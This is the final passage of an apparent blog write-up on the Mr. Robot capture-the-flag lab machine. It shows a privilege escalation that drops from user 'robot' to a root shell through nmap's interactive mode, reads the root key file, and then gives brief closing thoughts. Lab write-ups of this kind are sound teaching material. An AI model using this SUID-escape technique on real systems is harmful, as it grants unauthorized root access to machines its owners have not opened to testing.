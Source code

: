 <div class="highlighter-rouge"><pre class="highlight"><code>robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h &lt;enter&gt; for help
nmap&gt; !sh
!sh
$ id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
$ cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4

</code></pre>
</div>

<p>Fantastic.</p>

<h1 id="final-thoughts">Final Thoughts</h1>

<p>This was a really cool box and definitely got me into the mood to watch some Mr. Robot tonight!</p>

<p>The creators stated that there are multiple ways to own it, so this explains why some things (such as the brute force dict file) ended up not getting used.  I can tell they put a lot of effort into this machine.  I spent a little more time poking around the box after rooting it and can confirm there are other ways to get it.  If you want to know more you’ll have to download it and find them for yourself. ;)</p>

<p>Thanks for reading, and stay tuned for some posts on some personal projects coming up in the VERY near future.</p>

<p>All the best,</p>
